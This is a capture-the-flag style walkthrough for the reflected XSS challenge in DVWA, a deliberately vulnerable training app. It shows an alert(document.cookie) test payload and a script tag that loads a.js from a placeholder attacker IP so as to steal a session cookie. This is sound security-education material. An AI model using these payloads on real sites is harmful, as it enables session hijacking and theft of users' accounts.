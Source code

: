 <b>Challenge URL:</b> /dvwa/vulnerabilities/xss_r/
<br>
<b>Objective:</b> Steal the cookie of a logged-in user.
<br>
<b>Tools needed:</b> A temporary web server
<br><br>
<i>Did you remember to read this section's <a href="https://github.com/mrudy/dvwa-guide-2019/blob/master/low/README.md">README</a>?</i>

<h2><b>The Guide</b></h2>

<i>Note: This challenge is extremely similar to <a href="https://github.com/mrudy/dvwa-guide-2019/blob/master/low/Challenge%2010:%20XSS%20(DOM).md" target="_blank">Challenge 10</a>. We'll be using the same web server, exploit, and payload as before, so make sure those are good to go before proceeding.</i>

We see a basic web form with a field we can fill out.

<img src="https://github.com/mrudy/dvwa-guide-2019/blob/master/low/screenshots/xssrform.png" width="500">

When we input a name into the field and click the "Submit" button, we see the string "Hello [inputted_name]" returned back to us.

<img src="https://github.com/mrudy/dvwa-guide-2019/blob/master/low/screenshots/xssrtest.png" width="500">

Interesting. Can we cause an <code>alert</code> popup to occur using this field?

<code>&#60;script&#62;alert(document.cookie)&#60;/script&#62;</code>

<img src="https://github.com/mrudy/dvwa-guide-2019/blob/master/low/screenshots/xssrtestalert.png" width="500">

<i>Note that I actually input <code>document.cookie.split(";")[0]</code> as my payload, in order to hide my session ID. Just a privacy thing for me. You don't have to do that, and it impacts nothing besides what you see in my screenshots.</i>

Perfect! Instead of using an <code>alert</code>, let's use our previous exploit/payload combo from <a href="https://github.com/mrudy/dvwa-guide-2019/blob/master/low/Challenge%2010:%20XSS%20(DOM).md" target="_blank">Challenge 10</a>.

<code>&#60;script src="http://[your_Kali_IP]:9999/a.js"&#62;&#60;/script&#62;</code>

<img src="https://github.com/mrudy/dvwa-guide-2019/blob/master/low/screenshots/xssrexploit.png" width="500">

If we inspect the form's source code after we input the exploit, we see it's been successfully inserted:

<img src="https://github.com/mrudy/dvwa-guide-2019/blob/master/low/screenshots/xssrsource.png" width="500">

And examining the Python web server logs shows the cookie:

<img src="https://github.com/mrudy/dvwa-guide-2019/blob/master/low/screenshots/xssrexploit.png" width="500">

Easy enough! Challenge complete.
